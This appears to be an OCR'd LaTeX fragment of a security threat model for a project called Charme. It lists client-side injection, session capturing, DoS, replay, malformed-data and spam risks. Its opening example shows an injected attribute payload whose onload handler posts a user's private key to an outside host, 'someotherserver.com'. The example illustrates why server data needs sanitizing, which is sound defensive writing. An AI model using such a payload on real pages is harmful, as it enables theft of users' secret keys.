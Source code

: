 \documentclass{scrartcl}
\begin{document}
       \begin{lstlisting}
\$("html").append("<a href='"+data.href+"'>TEST</a>");
    \end{lstlisting}
    
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!\\
     
        \textbf{Additional Information:}\\
   OWASP Checklist: OTG-CLIENT-002
   
   \subsubsection{Session Capturing}
Send JSON request from another Website to host server. Make sure you can not access unencrypted user data such as lists for example.

\subsubsection{DOS}
Attackers can flood small servers with a lot of requests.
       \subsubsection{Replay attacks}
          Server can provide old public/private keys which have been compromised earlier for the user .
      \subsubsection{Malformed data}
      Attackers can send malformed data to clients which results in the client to producing an exception and therefore make Charme unusable for the user. Therefore malformed requests should be filtered by the client by checking for missing and correct typed values.
      
      \subsubsection{Spam}
      All posts from non-friends should be blocked. An exception are posts containing semantic information which should be searchable all over the web. Here we can either expand the search to friends server (efficient but may contain more spam) or even check friend of friend posts only (more computational power, but less spam).
\end{document}
